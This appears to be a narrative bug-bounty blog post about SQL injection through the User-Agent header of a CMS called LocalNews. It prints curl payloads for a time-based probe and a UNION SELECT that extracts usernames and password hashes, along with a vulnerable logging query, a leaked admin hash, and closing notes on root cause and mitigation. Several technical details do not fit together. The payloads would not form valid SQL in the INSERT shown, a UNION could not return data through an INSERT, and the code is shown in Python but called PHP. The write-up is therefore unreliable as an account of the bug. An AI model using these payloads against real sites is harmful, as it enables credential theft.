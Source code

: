 ```yaml
---
title: "LocalNews and the Whispering Header - SQLi in a Forgotten Log"
description: "How a harmless User-Agent turned into a SQL injection vector—and what the server logs whispered back"
date: '2024-02-17'
categories: ["Weekend Bug Bounties"]
tags: ["SQLi", "Log Poisoning", "User-Agent"]
header:
  image: "/images/localnews-sqli-banner.jpg"
  caption: "Visual metaphor of an SQL injection whispering through headers"
---
```


## Prologue — When Headers Speak

**10:47 PM — Rain tapped against the window while Burp Suite ran idle.** I was deep into recon on a small CMS platform called *LocalNews*. The payout was modest, the target obscure—but that’s the beauty of it. Quiet places often hide loud bugs.

I wasn’t expecting much. Just a few requests here and there to check how deep this rabbit hole went. But the moment I noticed the server logging behavior, my coffee got a refill.

This is the story of how a simple HTTP header broke into a database.

---

## Chapter 1 — The User-Agent with a Secret

Every request leaves a trail—sometimes in logs, sometimes in caches. I was curious:

*What if LocalNews logs the User-Agent header?*

Some internal admin panels do that for analytics or debugging. Harmless, until it isn’t.

My first nudge:

```bash
curl -A "HelloWorld" https://localnews-cms.com
```

No response on the frontend. But I had Burp Collaborator running in parallel and a gut feeling something got stored.

Time to push.

---

## Chapter 2 — The Delay That Said Everything

Next attempt:

```bash
curl -A "1' AND (SELECT sleep(5))--" https://localnews-cms.com
```

The server stalled for exactly 5 seconds.

I raised an eyebrow.

"That wasn’t lag. That was a whisper from the database."

It confirmed the User-Agent header was being interpolated directly into an SQL statement.

---

## Chapter 3 — What’s in the Logs, Stays in the Logs

This was classic log-based SQL injection. The devs likely had something like:

```python
cursor.execute(f"INSERT INTO logs (ua) VALUES ('{user_agent}')")
```

No escaping. No sanitizing. Just raw string shoving into a SQL query.

I imagined an ancient PHP logger, held together by duct tape and false hope.

I had time-based confirmation. Now, I wanted data.

---

## Chapter 4 — Credentials in Cleartext (Well, Almost)

I crafted the next payload like a love letter to `UNION SELECT`:

```bash
curl -A "1' UNION SELECT 1,concat(username,':',password),3 FROM users--" https://localnews-cms.com
```

I didn’t expect an immediate win. But when I checked the logs (visible via error traces), there it was:

```
admin:5f4dcc3b5aa765d61d8327deb882cf99
```

**MD5. Classic.**

I smiled. The hash? That’s `password` in disguise.

The site stored admin credentials in plaintext hashes. Bad practice, better bounty.

---

## Chapter 5 — My Thought Process

**Why User-Agent?** Because it’s usually overlooked. It’s meant to be informative, not dangerous. But when web servers blindly log anything without sanitization, you get injection vectors where you least expect them.

**Why time-based SQLi?** Because there was no output. A blind spot. Time becomes your oracle.

**Why MD5?** That’s a question for their devs.

---

## Chapter 6 — Reporting the Quiet Leak

This was never a flashy bug. No fancy payloads, no XSS sparks. Just patience and curiosity.

I submitted the report via HackerOne with:

- All curl payloads
- Timeline of delay-based confirmations
- MD5 leak proof
- A suggestion to migrate logging to prepared statements

Slack pinged me 12 hours later.

**They confirmed.**

**Patched the next day.**

**Bounty awarded: $25.**

Small, but it wasn’t about the money. It was about hearing a database whisper through headers.

---

## Chapter 7 — Root Cause Analysis

- Raw SQL string concatenation
- Lack of prepared statements for logging
- User-supplied input in logs (User-Agent, Referer, etc.)

---

## Chapter 8 — Mitigations

After the patch:

- Logging functions moved to parameterized queries
- Audit of other headers used in logs
- No more visible error traces exposing log output

---

## Epilogue — Why This Matters

Sometimes, you don’t need zero-days or deep fuzzing to find a vuln. All it takes is one header—and a little imagination.

*SQLi lives everywhere. Even in the quiet logs of forgotten CMS platforms.*

Let this be a reminder:

**Every input is an entry point. Every header a hypothesis.**

And when you're stuck? Just ask yourself:

*"What would the server log?"*
